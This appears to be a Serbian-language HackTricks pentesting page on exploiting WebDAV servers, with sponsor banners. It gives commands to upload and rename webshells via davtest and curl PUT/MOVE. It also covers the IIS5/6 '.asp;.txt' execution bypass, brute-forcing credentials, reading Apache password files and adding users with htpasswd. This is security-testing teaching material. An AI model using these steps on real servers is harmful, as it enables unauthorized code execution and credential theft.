 # WebDav

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Koristite [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) da biste lako izgradili i **automatizovali radne tokove** pokretane najnaprednijim alatima zajednice na svetu.\
Pristupite danas:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

Kada se bavite **HTTP serverom sa omogućenim WebDav-om**, moguće je **manipulisati fajlovima** ako imate odgovarajuće **kredencijale**, obično proverene putem **HTTP Basic autentikacije**. Dobijanje kontrole nad takvim serverom često uključuje **upload i izvršavanje webshell-a**.

Pristup WebDav serveru obično zahteva **validne kredencijale**, pri čemu je [**WebDav brute force**](../../generic-methodologies-and-resources/brute-force.md#http-basic-auth) čest metod za njihovo dobijanje.

Da biste prevazišli ograničenja u vezi sa upload-om fajlova, posebno ona koja sprečavaju izvršavanje server-side skripti, možete:

* **Upload-ovati** fajlove sa **izvršnim ekstenzijama** direktno ako nisu ograničeni.
* **Preimenovati** upload-ovane neizvršne fajlove (kao .txt) u izvršnu ekstenziju.
* **Kopirati** upload-ovane neizvršne fajlove, menjajući njihovu ekstenziju u jednu koja je izvršna.

## DavTest

**Davtest** pokušava da **upload-uje nekoliko fajlova sa različitim ekstenzijama** i **proveri** da li se ekstenzija **izvršava**:

```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```

## Cadaver

Možete koristiti ovaj alat da se povežete na WebDav server i izvršite akcije (kao što su **upload**, **move** ili **delete**) **ručno**.

```
cadaver <IP>
```

## PUT zahtev

```
curl -T 'shell.txt' 'http://$ip'
```

## MOVE zahtev

```
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Koristite [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) da biste lako izgradili i **automatizovali radne tokove** pokretane najnaprednijim alatima zajednice.\
Pristupite danas:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## IIS5/6 WebDav Ranjivost

Ova ranjivost je vrlo interesantna. **WebDav** **ne dozvoljava** da se **učitavaju** ili **preimenuju** fajlovi sa ekstenzijom **.asp**. Međutim, možete to **zaobići** dodavanjem na kraj imena **";.txt"** i fajl će biti **izvršen** kao da je .asp fajl (takođe možete **koristiti ".html" umesto ".txt"** ali **NE zaboravite ";"**).

Zatim možete **učitati** svoj shell kao ".**txt fajl**" i **kopirati/pomeriti ga u ".asp;.txt"** fajl. Pristupajući tom fajlu preko veb servera, on će biti **izvršen** (cadaver će reći da akcija pomeranja nije uspela, ali jeste).

![](<../../.gitbook/assets/image (18) (1) (1).png>)

## Postavite akreditive

Ako je Webdav koristio Apache server, trebalo bi da pogledate konfigurisane sajtove u Apachu. Obično:\
_**/etc/apache2/sites-enabled/000-default**_

Unutar toga možete pronaći nešto poput:

```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```

Kao što možete videti, postoje datoteke sa validnim **poverljivim podacima** za **webdav** server:

```
/etc/apache2/users.password
```

U ovom tipu datoteka pronaći ćete **korisničko ime** i **hash** lozinke. Ovo su pristupni podaci koje webdav server koristi za autentifikaciju korisnika.

Možete pokušati da ih **dekriptujete**, ili da **dodate više** ako iz nekog razloga želite da **pristupite** **webdav** serveru:

```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```

Da biste proverili da li novi pristupni podaci funkcionišu, možete uraditi:

```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```

## Reference

* [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
Koristite [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) da biste lako izgradili i **automatizovali radne tokove** pokretane najnaprednijim alatima zajednice na svetu.\
Dobijte pristup danas:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}
